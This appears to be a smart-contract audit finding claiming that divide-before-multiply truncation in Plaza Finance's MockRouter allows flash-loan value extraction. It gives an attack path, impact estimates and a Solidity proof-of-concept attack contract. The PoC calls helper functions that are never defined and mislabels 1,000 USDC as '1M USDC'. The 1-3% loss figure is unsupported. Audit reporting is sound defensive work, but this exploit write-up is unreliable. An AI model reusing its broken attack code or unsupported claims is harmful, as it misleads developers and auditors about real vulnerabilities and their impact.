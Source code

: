 Upbeat Golden Woodpecker

High

# Attackers will extract value through flash loan precision manipulation

### Summary

The divide-before-multiply pattern will cause significant value extraction for users as attackers will use flash loans to manipulate precision loss and extract value through arbitrage.

### Root Cause

In src/MockRouter.sol (lines 98-103) (https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/MockRouter.sol#L98-L103), the divide-before-multiply pattern enables flash loan attacks due to truncation manipulation::
```solidity
scaledDepositAmount = depositAmount / (10 ** (usdcDecimals - oracleDecimals))
reserveAmount = (scaledDepositAmount * (10 ** IERC20(reserveToken).safeDecimals())) / ethPrice
```

This sequence of operations leads to loss of precision due to integer division truncation.


### Internal Pre-conditions

1. Attacker needs access to flash loan liquidity
2. Token pair must have enough liquidity for the attack size
3. Price impact from trades must not exceed potential precision loss gains

### External Pre-conditions

1. Flash loan provider must have sufficient liquidity
2. Arbitrage opportunities must exist between this DEX and others

### Attack Path

1. Attacker takes flash loan of target token
2. Attacker performs multiple swaps with specific amounts to maximize truncation
3. Attacker arbitrages against other DEXes to capture the price differences
4. Attacker repays flash loan and keeps profit from precision loss

### Impact

The protocol users suffer an approximate loss of 1-3% per manipulated trade. The attacker gains this entire amount minus flash loan fees and gas costs.

### PoC

```solidity
contract FlashLoanPrecisionAttack is Test {
    MockRouter router;
    MockERC20 usdc;
    MockERC20 reserveToken;
    MockLendingPool lendingPool;
    
    function setUp() public {
        usdc = new MockERC20("USDC", "USDC", 6);
        reserveToken = new MockERC20("RT", "RT", 18);
        router = new MockRouter();
        lendingPool = new MockLendingPool();
    }
    
    function testFlashLoanAttack() public {
        // Setup initial states
        uint256 flashLoanAmount = 1000000000; // 1M USDC
        uint256 initialBalance = usdc.balanceOf(address(this));
        
        // Execute flash loan attack
        lendingPool.flashLoan(
            address(this),
            address(usdc),
            flashLoanAmount,
            abi.encodeWithSignature("executeAttack()")
        );
        
        // Verify profit
        uint256 finalBalance = usdc.balanceOf(address(this));
        uint256 profit = finalBalance - initialBalance;
        assertTrue(profit > 0);
        console.log("Attack profit:", profit);
    }
    
    function executeAttack() external {
        // Perform multiple precision-loss-maximizing swaps
        uint256[] memory amounts = calculateOptimalAmounts();
        for (uint i = 0; i < amounts.length; i++) {
            router.swapCreate(
                address(usdc),
                address(reserveToken),
                TokenType.ERC20,
                amounts[i],
                0, // min output
                block.timestamp,
                address(this)
            );
        }
        
        // Arbitrage against external DEX
        arbitragePositions();
    }
}
```

### Mitigation

1. Implement price impact checks
2. Add minimum trade size requirements
3. Fix the divide-before-multiply pattern
4. Consider implementing flash loan protection mechanisms